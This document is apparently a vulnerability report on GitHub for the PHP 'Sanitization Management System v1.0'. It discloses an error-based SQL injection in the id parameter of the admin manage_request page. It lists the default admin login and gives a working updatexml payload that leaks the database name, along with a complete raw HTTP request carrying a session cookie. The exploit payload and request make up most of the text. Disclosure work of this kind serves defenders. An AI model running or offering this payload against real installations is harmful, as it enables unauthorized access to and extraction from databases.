 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: daytime

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Execute the following statement to create the "request_list" table

```sql
CREATE TABLE `request_list` (
  `id` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

Vulnerability File: /php-sms/admin/?page=orders/manage_request&id=

Vulnerability location: /php-sms/admin/?page=orders/manage_request&id=, id

dbname =sms_db,length=6

[+] Payload:  /php-sms/admin/?page=orders/manage_request&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+  // Leak place ---> id


```sql
GET /php-sms/admin/?page=orders/manage_request&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195979564-70593e84-2cc9-482b-b37f-d3f5f4433e40.png)
